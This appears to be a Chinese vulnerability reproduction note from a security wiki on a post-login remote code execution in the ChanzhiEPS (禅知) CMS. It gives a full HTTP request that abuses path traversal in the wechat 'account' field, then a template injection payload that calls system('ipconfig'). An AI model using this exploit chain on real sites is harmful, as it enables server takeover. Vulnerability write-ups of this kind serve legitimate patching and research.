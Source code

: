 ```yaml
---
title: "禅知后台getshell"
id: zhfly3360
---
```


# 禅知 后台getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

后台存在模板编辑，但是如果保存的话需要创建一个/system\tmp\xjrg.txt文件，那么我们找到一个可以创建任意文件的地方就

![image](../img/003981bbe4b1213ca17293f29a8cc869.png)

在/system/module/wechat/model.php

![image](../img/1dc3edfec206625266c025a245fbd143.png)

$qrcodeFile未过滤目录穿越导致可以去其他地方创建文件夹通过微信设置原始ID的地方写入穿越的文件路径

![image](../img/1259fe493cfd669d376030f94fe23097.png)

```
POST /chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1 HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1
Content-Length: 120
Cookie: adminsid=ae8tu3s80j8cfvh2hkgu41bbig; adminLang=zh-cn; adminDevice=desktop; theme=default; currentGroup=setting; frontsid=eaa0tdicbqfq0lurm89t3n9fvn; frontLang=zh-cn; frontDevice=desktop
X-Forwarded-For: 8.8.8.8
Connection: close `type=subscribe&name=123&account=…%2F…%2F…%2Fsystem%5Ctmp%5Cxjrg.txt%5C1&appID=789&appSecret=100&token=222&certified=0` 
```

点一下二维码，再随便传一张图片，可以看到创建了一个xjrg.txt文件夹

![image](../img/58cd91f073eb84793053bbbf1fc9c4ca.png)

现在我们再去编辑模板，{!echo(system('ipconfig'))},可以直接写入一句话

![image](../img/41f2976bae26cc88de1d18c06af6170f.png)

然后在访问前台

http:/0-sec.org/chanzhieps/www/index.php/sitemap/

![image](../img/db45ccd80e56f23fa3a0f699b695a096.png)
